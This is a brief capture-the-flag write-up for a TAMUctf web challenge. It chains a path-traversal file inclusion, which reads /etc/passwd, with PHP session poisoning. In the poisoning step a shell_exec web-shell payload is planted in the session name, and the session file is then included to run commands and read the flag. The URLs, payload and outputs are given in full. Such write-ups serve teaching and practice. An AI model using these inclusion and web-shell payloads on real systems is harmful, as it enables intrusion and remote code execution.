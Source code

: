 ## LFI

- `http://filestorage.tamuctf.com/index.php?file=../../../../../etc/passwd`

```
root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin
```

## php session poisoning

- From [https://github.com/w181496/Web-CTF-Cheatsheet#php-session](https://github.com/w181496/Web-CTF-Cheatsheet#php-session)
- Session exist at `sess_{PHPSESSID}`
- Check cookie and get `PHPSESSID`
- Find where session file exists
	- `http://filestorage.tamuctf.com/index.php?file=../../../../../tmp/sess_5lpmadkrnrft9a18hbbrshrond`
- Set name as `<?php echo shell_exec($_GET["command"]); ?>` and get RCE

## RCE

- Set GET parameter `command`
- `http://filestorage.tamuctf.com/index.php?file=../../../../../tmp/sess_5lpmadkrnrft9a18hbbrshrond&command=cat%20../../../../flag_is_here/flag.txt`

```
name|s:43:"gigem{535510n_f1l3_p0150n1n6}";
```


